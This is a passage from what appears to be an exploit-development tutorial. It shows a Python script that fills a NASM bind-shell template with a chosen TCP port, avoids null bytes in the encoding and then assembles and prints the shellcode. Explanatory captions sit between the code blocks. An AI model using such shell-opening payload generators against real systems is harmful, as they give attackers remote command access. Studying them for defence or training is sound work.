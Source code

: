         print_shellcode(object_file_path)
    except:
        print(traceback.format_exc())
        sys.exit(1)

def replace_template_values(template_name, tcp_port, output_file_path):

    with open(template_name) as f:
        template_code = f.read()

    tcp_port_hex = (tcp_port).to_bytes(2, "little").hex()

    if '00' in tcp_port_hex:
        if '00' in tcp_port_hex[:2]:
            non_null_byte = tcp_port_hex[2:]
            replace_code = f"mov bl, 0x{non_null_byte}\n    push bx\n    xor ebx, ebx"
        else:
            non_null_byte = tcp_port_hex[:2]
            replace_code = f"mov bh, 0x{non_null_byte}\n    push bx\n    xor ebx, ebx"
    else:
        replace_code = f"push WORD 0x{tcp_port_hex}"</code></pre><figcaption>These last instructions allows you avoid <code>NULL</code> bytes in the TCP port number. For example, the port <code>256</code> is converted to <code>0x0001</code> (big endian), while port <code>80</code> is converted to <code>0x5000</code></figcaption></figure><pre><code class="language-py">    template_code = template_code.replace("{{ TEMPLATE_TCP_PORT }}", replace_code, 1)
    
    with open(output_file_path, 'w') as f:
        f.write(template_code)

def main():

    parser = argparse.ArgumentParser()
    parser.add_argument('-p', '--port', type=int, help='TCP Port for the Bind Shell', required=True, metavar="[1-65535]")
    parser.add_argument('-t', '--template', help='Path of the NASM template file. Example: -t /tmp/template.nasm', required=True)
    parser.add_argument('-o', '--output', help='Path for the output file. Example: -o /tmp/output.nasm', required=True)

    args = parser.parse_args()

    tcp_port = args.port
    if tcp_port not in range(1, 65536):
        print(f"[!] Argument '--port' must be in range [1-65535]")
        sys.exit(1)

    shellcode_template = args.template
    output_file_path = args.output

    replace_template_values(shellcode_template, tcp_port, output_file_path)
    generate_shellcode(output_file_path)


if __name__ == '__main__':

    main()</code></pre><p>Thanks to <code>argparse</code>, when you run the script, it asks you for the required arguments:</p><pre><code class="language-bash">python3 script.py -h
